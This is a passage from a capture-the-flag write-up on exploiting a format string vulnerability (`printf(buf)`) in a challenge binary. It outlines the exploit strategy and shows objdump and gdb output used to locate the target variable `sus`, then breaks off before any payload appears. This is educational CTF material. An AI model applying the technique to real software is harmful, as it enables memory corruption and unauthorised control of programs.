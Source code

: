 1. The use of `printf(buf)` without a format specifier leading to format string vulnerability.

## Exploitation Strategy

The goal is to exploit the format string vulnerability to overwrite the value of `sus` and reveal the flag.

1. Determine the address of the variable `sus`.

2. Determine the position of user input on the stack.

3. Craft a payload that writes the desired value to `sus`.

## Exploitation steps

1. Determine the address of the variable `sus`.

- Using objdump:

```terminal
$ objdump -d vuln | grep sus 
  401273:       8b 05 e7 2d 00 00       mov    0x2de7(%rip),%eax        # 404060 <sus>
  4012df:       8b 05 7b 2d 00 00       mov    0x2d7b(%rip),%eax        # 404060 <sus>
```

- The address of `sus` is `0x404060`.

2. Determine the stack location of the input using gdb.

- Run the program in GDB:

```terminal
$ gdb vuln
```

- `disas main` to see the suitable timing to set breakpoint:

```gdb
gef➤  disas main
Dump of assembler code for function main:
   0x00000000004011f6 <+0>:     endbr64
   0x00000000004011fa <+4>:     push   rbp
   0x00000000004011fb <+5>:     mov    rbp,rsp
   0x00000000004011fe <+8>:     sub    rsp,0x450
   0x0000000000401205 <+15>:    mov    edi,0x402008
   0x000000000040120a <+20>:    call   0x4010b0 <puts@plt>
   0x000000000040120f <+25>:    mov    rax,QWORD PTR [rip+0x2e52]        # 0x404068 <stdout@GLIBC_2.2.5>
   0x0000000000401216 <+32>:    mov    rdi,rax
   0x0000000000401219 <+35>:    call   0x4010e0 <fflush@plt>
   0x000000000040121e <+40>:    lea    rax,[rbp-0x410]
   0x0000000000401225 <+47>:    mov    rsi,rax
   0x0000000000401228 <+50>:    mov    edi,0x40206e
   0x000000000040122d <+55>:    mov    eax,0x0
   0x0000000000401232 <+60>:    call   0x401100 <__isoc99_scanf@plt>
   0x0000000000401237 <+65>:    mov    edi,0x402075
   0x000000000040123c <+70>:    mov    eax,0x0
   0x0000000000401241 <+75>:    call   0x4010c0 <printf@plt>
   0x0000000000401246 <+80>:    lea    rax,[rbp-0x410]
   0x000000000040124d <+87>:    mov    rdi,rax
   0x0000000000401250 <+90>:    mov    eax,0x0
   0x0000000000401255 <+95>:    call   0x4010c0 <printf@plt>
   0x000000000040125a <+100>:   mov    edi,0xa
   0x000000000040125f <+105>:   call   0x4010a0 <putchar@plt>
   0x0000000000401264 <+110>:   mov    rax,QWORD PTR [rip+0x2dfd]        # 0x404068 <stdout@GLIBC_2.2.5>
   0x000000000040126b <+117>:   mov    rdi,rax
   0x000000000040126e <+120>:   call   0x4010e0 <fflush@plt>
   0x0000000000401273 <+125>:   mov    eax,DWORD PTR [rip+0x2de7]        # 0x404060 <sus>
```